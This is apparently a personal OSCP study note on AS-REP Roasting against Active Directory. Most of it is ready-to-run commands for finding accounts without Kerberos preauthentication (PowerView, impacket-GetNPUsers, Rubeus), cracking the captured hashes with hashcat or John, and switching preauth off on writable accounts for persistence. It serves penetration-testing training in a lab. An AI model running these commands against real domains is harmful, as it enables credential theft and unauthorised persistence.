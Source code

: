 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/13. Active Directory Attacks/3. AS-REP Roasting/"}
---
```


-------
- AS-REP, or Kerberos preauthentication, prevents offline password guessing and attacks against the server responses.
- However, if "_Do not require Kerberos preauthentication_" is enabled for specific users for applications to function properly this can be done.
- In some situations it may be possible to enable it manually also.
-----------
### Enumerate Kerberos preauth disabled:
- Locally on Windows:
```
Get-NetUser -PreauthNotRequired -Verbose | select cn
```
- Remote from kali:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
```
---------------------
### Remote AS-REP Roasting with Impacket:
- Uses ip address for domain controller and user to authenticate
1. Launch roast:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```
2. Crack hash:
```
#Hashcat:
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#John:
john --wordlist=passwords_kerb.txt hashes.asreproast
```

-------
### Local AS-REP Roasting with Rubeus:
1. Launch roast:
```
.\Rubeus.exe asreproast /nowrap
```
2. Crack hash on kali:
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

-----------
### Targeted AS-REP Roasting Abuse/Persistence:
- Set preauth not required for users where we have write privileges:
```
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
